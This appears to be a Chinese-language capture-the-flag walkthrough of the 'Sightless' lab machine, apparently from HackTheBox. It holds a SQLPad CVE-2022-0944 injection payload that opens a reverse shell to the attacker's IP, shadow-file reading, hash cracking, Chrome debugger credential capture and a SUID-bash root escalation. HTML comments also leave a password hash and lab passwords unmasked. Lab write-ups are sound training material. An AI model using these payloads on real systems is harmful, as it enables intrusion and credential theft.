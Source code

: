 # Sightless

> 本机 IP: 11.11.11.11
>
> 目标 IP: 11.11.11.12
>
> 参考 [wp1](https://blog.csdn.net/m0_52742680/article/details/142123113) [wp2](https://loghmariala.github.io/posts/Sightless/)

```sh
$ nmap -sSVC 11.11.11.12
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:11.11.11.12]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

$ vi /etc/hosts
[+] 11.11.11.12 sightless.htb
```

访问 sightless.htb, 其中有一个跳转到 sqlpad.sightless.htb

```shell
$ vi /etc/hosts
[+] 11.11.11.12 sqlpad.sightless.htb
```

访问 http://sqlpad.sightless.htb/ 是一个 SQLPad 组件, 搜索存在漏洞 CVE-2022-0944, 6.10.1 之前版本存在注入漏洞, 可远程执行代码

<!-- [wp](https://blog.csdn.net/m0_52742680/article/details/142123113), burp抓包可看具体版本为6.10.0 -->

Linux 监听:`nc -lvvp 23333` -> 连接 -> Driver:MySQL -> Database 输入 payload 反弹 shell:

```sql
-- Database 中输入后保存
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/11.11.11.11/23333 0>&1"') }}
```

反弹成功后显示权限为 root

```sh
# 在 docker 中
/var/lib/sqlpad $ cd /

/ $ ls -al
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint

/ $ ls -alh /.dockerenv
-rwxr-xr-x 1 root root 0 Aug  2 09:30 /.dockerenv
```

有文件`.dockerenv`和`docker-entrypoint`, 判断在 docker 中

```sh
$ cat /etc/passwd
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

$ cat /etc/shadow
node:!:19053:0:99999:7:::
michael:⬛⬛⬛:19860:0:99999:7:::
```

<!-- 复制 michael 的密码 hash 值`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`到文件`hash`中进行解密 -->

复制 michael 的密码 hash 值`⬛⬛⬛`到文件`hash`中进行解密

<!-- ```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
insaneclownposse (?)
...
``` -->

```sh
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
⬛⬛⬛ (?)
...
```

<!-- ssh 使用 michael:insaneclownposse 登录成功 -->

ssh 使用 michael:⬛⬛⬛ 登录成功

```sh
michael@sightless:~$ ls
user.txt
```

## Privilege Escalation

```sh
# 无果
# michael@sightless:~$ sudo -l
# michael@sightless:~$ find / -perm -u=s -f type 2>/dev/null
# 还有一个用户 john, UID=1001 但是没权限

michael@sightless:~$ ss -tlnp
...
LISTEN    0    511    127.0.0.1:8080    0.0.0.0:*
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*
...
```

Send-Q=10 的端口后面会用, 先将 8080 转发至本地

```sh
# local
$ ssh -L 8080:127.0.0.1:8080 michael@sightless.htb -N -f

# -N: 不执行远程命令
# -f: 在后台运行SSH会话
```

访问 http://127.0.0.1:8080/ 到 Froxlor 登录界面, 无果

上传 pspy64 查看进程信息

```sh
$ scp /root/Desktop/pspy64 michael@sightless.htb:/tmp

michael@sightless:/tmp$ chmod +x pspy64
michael@sightless:/tmp$ ./pspy64
2024/09/13 07:31:24 CMD: UID=1001  PID=1822   | /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1768 --no-sandbox --disable-dev-shm-usage --enable-automation --remote-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1726211554077008 --launch-time-ticks=276762732 --sh
2024/09/13 07:31:24 CMD: UID=1001  PID=1793   | /opt/google/chrome/chrome --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --use-gl=angle --headless --crashpad-handler-pid=1768 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,1365604885317938204,13150205076573000667,262144 --disable-features=PaintHolding --variations-seed-version --enable-logging --log-level=0 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1790   | /opt/google/chrome/chrome --type=gpu-process --no-sandbox --disable-dev-shm-usage --headless --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=1768 --gpu-preferences=WAAAAAAAAAAgAAAMAAAAAAAAAAAAAAAAAABgAAEAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --shared-files --field-trial-handle=3,i,1365604
2024/09/13 07:31:24 CMD: UID=1001  PID=1773   | /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1772   | /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1768   | /opt/google/chrome/chrome_crashpad_handler --monitor-self-annotation=ptype=crashpad-handler --database=/tmp/Crashpad --url=https://clients2.google.com/cr/report --annotation=channel= --annotation=lsb-release=Ubuntu 22.04.4 LTS --annotation=plat=Linux --annotation=prod=Chrome_Headless --annotation=ver=125.0.6422.60 --initial-client-fd=6 --shared-client-connection
2024/09/13 07:31:24 CMD: UID=1001  PID=1763   | /opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.0ge2G9 data:,
```

进程中开启了谷歌, 参考文章[Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), 对其他端口进行转发, 其中有个 Send-Q=10 端口 18888

```sh
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*

$ ssh -L 18888:127.0.0.1:18888 michael@sightless.htb -N -f
```

谷歌, 访问`chrome://inspect/#devices`

<!-- Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin/ForlorfroxAdmin -->

Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin:⬛⬛⬛

登录进入 Froxlor -> PHP -> PHP-FPM versions -> Create new PHP version -> php-fpm restart command: chmod 4777 /bin/bash -> save -> System -> Settings -> PHP-FPM -> SAVE -> Click here to continue

```sh
# wait a minute
michael@sightless:~$ ls -al /bin/bash
-rwsrwxrwx 1 root root ... /bin/bash
michael@sightless:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
root.txt
```
